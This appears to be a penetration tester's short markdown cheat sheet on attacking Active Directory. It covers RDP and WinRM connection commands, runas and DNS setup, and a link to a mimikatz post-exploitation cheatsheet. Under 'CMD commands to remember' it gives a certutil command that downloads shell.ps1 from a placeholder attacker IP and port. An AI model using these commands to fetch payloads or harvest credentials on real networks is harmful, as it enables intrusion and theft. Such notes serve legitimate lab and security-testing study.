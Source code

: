 # Active Directory


RDP to connect to jumphost: `xfreerdp /u:${DOMAIN}\\${user} /p:${password} /cert:ignore /v:$RHOST`
In order to add a shared drive with `xfreedrp`, use `/drive:tmp,/tmp`.
Note that the shared drive can now be accessed programmatically by using the path `\\tsclient\tmp` on the Windows host.


## evil-winrm

Connect to windows host via WinRM with (from kali)
```
evil-winrm -i ${RHOST} -u ${USER} -p ${PW}
```
special characters might need to be escaped from the password.

## Enumeration

### Initial setup

Set network connection credentials to given user on Windows with:
```
runas.exe /netonly /user:<domain>\<username> cmd.exe
```
Commands used for configuring DNS to the domain controller manually in PS:
```
$dnsip = "${DC_IP}"
$index = Get-NetAdapter -Name '${Network_Interface}' | Select-Object -ExpandProperty 'ifIndex'
Set-DnsClientServerAddress -InterfaceIndex $index -ServerAddresses $dnsip
```
`${Network_Interface}` is interface of the network


verify by using nslookup afterwards.


## Post Exploit

[mimikatz cheatsheet](https://kashz.gitbook.io/kashz-jewels/cheatsheet/mimikatz)


## CMD commands to remember

CMD equivalent of wget
```
certutil.exe -urlcache -split -f http://{ATTACKER_IP}:{ATTACKER_PORT}/shell.ps1
```

grep equivalent for cmd: `findstr`

remove a file with force: `del /f`

